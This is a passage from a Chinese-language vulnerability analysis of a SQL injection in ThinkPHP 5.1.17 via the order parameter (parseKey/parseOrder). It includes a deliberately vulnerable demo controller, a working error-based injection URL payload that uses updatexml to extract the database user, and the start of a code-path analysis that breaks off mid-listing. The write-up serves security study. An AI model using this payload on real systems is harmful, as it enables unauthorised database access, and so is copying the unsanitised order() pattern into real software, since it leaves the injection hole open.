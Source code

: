 可以看到在`filterExp`中仅对`NOTLIKE`进行了处理,没有处理`NOT LIKE`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204102043480.png)

# parseKey导致sql注入(parseOrder)

>测试版本为5.1.17

## 漏洞复现

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $order = request()->get('order');
        $result = db('users')->where(['username' => 'user'])->order($order)->find();
        var_dump($result);
    }
}
```

```
?order[id` and updatexml(1,concat(0x7e,user(),0x7e),1)%23]=1
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204102145690.png)

## 漏洞分析

函数调用栈

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204102227636.png)

```php
#Query->find => Connection->find => Builder->select
#thinkphp/library/think/db/Builder.php
    /**
     * 生成查询SQL
     * @access public
     * @param  Query  $query  查询对象
     * @return string
     */
    public function select(Query $query)#Builder->select
    {
        $options = $query->getOptions();

        return str_replace(
            ['%TABLE%', '%DISTINCT%', '%FIELD%', '%JOIN%', '%WHERE%', '%GROUP%', '%HAVING%', '%ORDER%', '%LIMIT%', '%UNION%', '%LOCK%', '%COMMENT%', '%FORCE%'],
            [
                $this->parseTable($query, $options['table']),
                $this->parseDistinct($query, $options['distinct']),
                $this->parseField($query, $options['field']),
                $this->parseJoin($query, $options['join']),
                $this->parseWhere($query, $options['where']),
                $this->parseGroup($query, $options['group']),
                $this->parseHaving($query, $options['having']),
                $this->parseOrder($query, $options['order']),#关键点
                $this->parseLimit($query, $options['limit']),
                $this->parseUnion($query, $options['union']),
```